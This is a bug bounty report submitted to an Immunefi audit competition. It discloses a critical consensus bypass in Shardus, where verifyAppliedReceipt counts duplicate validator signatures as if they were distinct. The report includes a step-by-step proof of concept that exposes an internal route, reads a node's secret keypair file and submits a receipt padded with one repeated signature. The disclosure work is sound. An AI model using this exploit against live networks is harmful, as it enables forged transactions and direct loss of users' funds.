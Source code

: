 # #35694 \[BC-Critical] Consensus can be bypassed by single validator node from transaction execution group

**Submitted on Oct 3rd 2024 at 17:04:50 UTC by @Merkle\_Bonsai for** [**Audit Comp | Shardeum: Core II**](https://immunefi.com/audit-competition/shardeum-core-ii-boost)

* **Report ID:** #35694
* **Report Type:** Blockchain/DLT
* **Report severity:** Critical
* **Target:** https://github.com/shardeum/shardus-core/tree/dev
* **Impacts:**
  * Consensus bypass
  * Causing network processing nodes to process transactions from the transaction queue beyond set parameters
  * Direct loss of funds
  * Permanent freezing of funds (fix requires hardfork)

## Description

## Brief/Intro

Shardus \`TransactionConsensus.verifyAppliedReceipt\`, responsible for verification of 66%+ consensus across transaction execution group, is not checking for uniqueness of execution group signatures, only about its count, allowing malicious validator to mark transaction as verified by execution group solely. Since execution group is required, not every transaction can be handled like this, yet, due to execution groups rotation, attacker is able to find good timing for any transaction to be in its execution group.

## Vulnerability Details

\`TransactionConsensus.verifyAppliedReceipt\` is using following logic: \`\`\` let validSignatures = 0; const appliedVoteHash: AppliedVoteHash = { txid: receipt.proposal.txid, voteHash: receipt.proposalHash, voteTime: 0 }

```
for (let i &#x3D; 0; i &lt; receipt.signaturePack.length; i++) {
  const sign &#x3D; receipt.signaturePack[i]
  if (!executionGroupNodes.has(sign.owner)) continue
  appliedVoteHash.voteTime &#x3D; receipt.voteOffsets[i]
  const signedObject &#x3D; { ...appliedVoteHash, sign };
  if (this.crypto.verify(signedObject, sign.owner)) {
    validSignatures++;
  }
}
```

\`\`\`

This check is used in \`poqo-receipt-gossip\`, \`binary/poqo\_data\_and\_receipt\`, \`binary/poqo\_send\_receipt\` that are fundamental communication primitives of consensus logic, relying on multiple validators guarantees. However, if same signature and voteOffset for 100 times are passed in this function, \`validSignatures\` will take every into account.

Moreover, \`poqo-receipt-gossip\` is requesting final data from random node of \`payload.signaturePack\[].owner\` list. In this case, attacker will know that his node will be asked for this request (since he is only one in signature pack), allowing him to return any state for address datas requested, freely modifying chain state.

## Impact Details

This attack vector allows any validator to basically perform any changes to the network and modify any states.

## Recommendations

Add uniqueness check to \`verifyAppliedReceipt\`

## Proof of Concept

## Proof of Concept

It is quite hard to build full end-to-end example of this attack, as it will require full-scale malicious node codebase, making things unreadable. As a minimalistic example, following can be done:

1. In \`shardeum/index.ts\`, add following handler to expose some internals: \`\`\` import \* as p2pNodeList from '@shardus/core/dist/p2p/NodeList' ... shardus.registerExternalPost('binary\_poqo', async (req, res) => { await tellBinary\<PoqoSendReceiptReq>( p2pNodeList.byIdOrder, InternalRouteEnum.binary\_poqo\_send\_receipt, { ...req.body.signedReceipt, txGroupCycle: req.body.txGroupCycle }, serializePoqoSendReceiptReq, { tracker\_id: '', }, true, '' ) res.send() }) \`\`\`
2. connect to any node with debugger. This can be done by sending SIGUSR1, allowing to interactively debug what's happening. Set breakpoint in \`TransactionConsensus.ts\` on line 1186, around here: \`\`\` const poqoSendReceiptBinary: Route\<InternalBinaryHandler\<Buffer>> = { name: InternalRouteEnum.binary\_poqo\_send\_receipt, handler: async (payload, respond, header) => { const route = InternalRouteEnum.binary\_poqo\_send\_receipt this.profiler.scopedProfileSectionStart(route) nestedCountersInstance.countEvent('internal', route) \`\`\`
3. send any transaction, irrelevant if it's bad or good. I was using this call \`\`\` await shardus.p2p.sendGossipIn('spread\_tx\_to\_group', payload, '', null, p2pNodeList.byIdOrder, true, -1, payload.txId) \`\`\` to avoid tx being processed too fast.
4. do following call: \`\`\` const keypair = JSON.parse(await fs.readFile('../instances/shardus-instance-9005/secrets.json')) // e.g. node 9005 const txId = %tx id% const proposalHash = %any nonsense% const txGroupCycle = %correct group cycle% const voteHash = crypto.signObj( { txid: txId, voteHash: proposalHash, voteTime: 0, }, keypair.secretKey, keypair.publicKey ) await post('http://127.0.0.1:9006/binary\_poqo', { signedReceipt: crypto.signObj( { proposal: { applied: true, cant\_preApply: false, accountIDs: \[], beforeStateHashes: \[], afterStateHashes: \[], appReceiptDataHash: '', txid: txId, }, proposalHash, voteOffsets: \[ voteHash.voteTime, voteHash.voteTime, voteHash.voteTime, voteHash.voteTime, voteHash.voteTime, voteHash.voteTime, voteHash.voteTime, voteHash.voteTime, voteHash.voteTime, voteHash.voteTime, ], signaturePack: \[ voteHash.sign, voteHash.sign, voteHash.sign, voteHash.sign, voteHash.sign, voteHash.sign, voteHash.sign, voteHash.sign, voteHash.sign, voteHash.sign, ], }, keypair.secretKey, keypair.publicKey ), txGroupCycle, }) \`\`\`
5. Observe in debugger that transaction receipt is processed correctly despite same signature is reused.
